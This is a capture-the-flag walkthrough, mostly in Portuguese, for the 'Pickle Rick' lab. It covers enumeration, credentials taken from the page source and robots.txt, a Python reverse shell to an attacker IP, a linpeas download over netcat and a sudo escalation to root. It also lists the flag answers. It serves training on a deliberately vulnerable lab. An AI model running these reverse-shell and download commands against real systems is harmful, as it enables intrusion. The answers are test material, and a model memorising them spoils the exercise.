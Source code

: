 # Lab: Pickle Rick

## TASKs:

1. **What is the first ingredient that Rick needs?** `mr. meeseek hair`
2. **What is the second ingredient in Rick’s potion?** `1 jerry tear`
3. **What is the last and final ingredient?** `fleeb juice`

---

```
export IP=10.10.89.179
```
```
ip addr show tun0 # 10.8.32.62/16
```

---

## 1) Enumeração com Nmap
```bash
nmap -A $IP
```
**Resultados:**
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
**Fonte:** http://10.10.89.179/ -> **Username:** R1ckRul3s

---

## 2) Enumeração com Gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IP -x php,sh,txt,html,js,css,py
```
**Diretórios e Arquivos Encontrados:**
```
/assets/
/robots.txt -> Wubbalubbadubdub
/login.php -> Username: R1ckRul3s , Password: Wubbalubbadubdub
/portal.php -> (INFO: Após Login!) Command Panel: "ls", "less", "grep .", "grep -R ." -> (toda a info de todos os ficheiros)
```
**Flags Identificadas:**
```
Sup3rS3cretPickl3Ingred.txt: mr. meeseek hair (INFO: FLAG!)
clue.txt: Look around the file system for the other ingredient.
```
**Comandos Permitidos:**
```php
$cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
```

**Possível Codificação Base64:**
```
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

---

## 3) Decodificação Base64
```bash
echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
```
**Resultado:**
```
rabbit hole
```

---

## 4) Verificação e Exploração Python
```bash
python3 -c "print('hello')" # Verificar se python3 está disponível
```
**Reverse Shell (Pentestmonkey Reverse Shell CheatSheet)**
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.32.62",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```
**Listener no Terminal:**
```bash
netcat -lnvp 9999
```

---

## 5) Estabilização de Shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
**Erros Possíveis:**
```
/bin/sh: 0: can't access tty; job control turned off
```
**Correção:**
```bash
export TERM=xterm
ls
```

---

## 6) Escalada de Privilégios
```bash
stabilize_shell3.sh
upload_file_nc.sh /opt/linpeas.sh
```
**Execução do Linpeas:**
```bash
nc -q 0 10.8.9.112 19934 > /dev/shm/lin
cd /dev/shm
ls # linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
**Identificação:**
```
(ALL) NOPASSWD: ALL (INFO: Acesso total sem senha)
```
**Escalação para Root:**
```bash
sudo bash
```
**Flags Encontradas:**
```bash
ls # 3rd.txt
cat 3rd.txt # feeb juice
```
**Exploração de Diretórios de Usuário:**
```bash
cd /home
ls # rick
cd rick/
ls # second ingredientes
cat * # 1 jerry tear
```

